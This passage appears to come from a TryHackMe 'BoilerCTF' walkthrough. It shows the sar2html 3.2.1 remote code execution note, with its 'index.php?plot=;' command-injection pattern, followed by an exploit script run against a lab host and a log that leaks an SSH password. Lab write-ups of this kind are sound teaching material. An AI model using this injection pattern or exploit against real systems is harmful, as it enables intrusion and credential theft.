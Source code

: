 The `.txt` is the exploit-flow:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ cat 47204.txt
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

And the `.py` file will delivery the exploitation with your payload and print out the result:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ python3 49344.py
Enter The url => http://10.10.89.79/joomla/_test/
Command => ls -la
HPUX
Linux
SunOS
total 124
drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 .
drwxr-xr-x 25 www-data www-data  4096 Aug 22  2019 ..
-rwxr-xr-x  1 www-data www-data 53430 Aug 22  2019 index.php
-rwxr-xr-x  1 www-data www-data   716 Aug 21  2019 log.txt
-rwxr-xr-x  1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 sarFILE
```

Read the `log.txt` file log:

```tsx
Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```
